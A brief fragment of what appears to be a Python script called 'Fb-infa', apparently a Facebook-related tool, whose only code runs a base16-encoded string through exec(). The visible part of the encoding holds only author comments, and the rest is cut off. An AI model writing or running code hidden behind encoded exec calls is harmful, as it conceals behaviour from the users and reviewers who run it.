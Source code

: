 # Fb-infa# Auther : akash
# GitHub : https://github.com/Binyamin-binni
# YouTube Channel :no such youtube
import base64
exec(base64.b16decode('2320436F6D70696C6564204279203A2042696E79616D696E0A2320476974487562203A2068747470733A2F2F6769746875622
